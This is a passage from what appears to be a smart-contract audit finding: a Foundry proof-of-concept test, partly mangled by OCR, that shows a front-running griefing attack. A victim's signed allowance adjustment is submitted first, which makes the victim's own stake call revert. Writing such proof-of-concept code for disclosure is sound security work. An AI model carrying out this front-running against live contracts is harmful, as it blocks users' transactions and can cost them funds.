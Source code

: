 ```
        token,
        allowanceAdjustment
    );
    uint256 snapshotId &#x3D; vm.snapshot();
    
    vault.modifyCollateralizableTokenAllowanceWithSignature(victim, address(pool), token, allowanceAdjustment, signature);
    vm.startPrank(victim);
    vm.expectRevert(abi.encodeWithSelector(CollateralVault.InvalidSignature.selector, victim));
    pool.stake(token, uint256(allowanceAdjustment), signature);
    assertEq(
        vault.accountCollateralizableTokenAllowances(victim, address(pool), token),
        uint256(allowanceAdjustment),
        &quot;L1 allowance not set correctly&quot;
    );
    vm.stopPrank();
}

function _generateSignature(
    CollateralVault vault,
    address account,
    address collateralizableContract,
    address tokenAddr,
    int256 adjustment
) internal view returns (bytes memory) {
    bytes32 structHash &#x3D; keccak256(
        abi.encode(
            vault.COLLATERALIZABLE_TOKEN_ALLOWANCE_ADJUSTMENT_TYPEHASH(),
            collateralizableContract,
            tokenAddr,
            adjustment,
            vault.nonces(account, vault.COLLATERALIZABLE_TOKEN_ALLOWANCE_ADJUSTMENT_TYPEHASH())
        )
    );

    bytes32 hash &#x3D; vault.getHashTypedDataV4(structHash);
    (uint8 v, bytes32 r, bytes32 s) &#x3D; vm.sign(victimPrivateKey, hash);
    return abi.encodePacked(r, s, v);
}
```

} \`\`\`

Run the test by: \`\`\`bash forge test --match-test testFrontRunGriefing \`\`\`
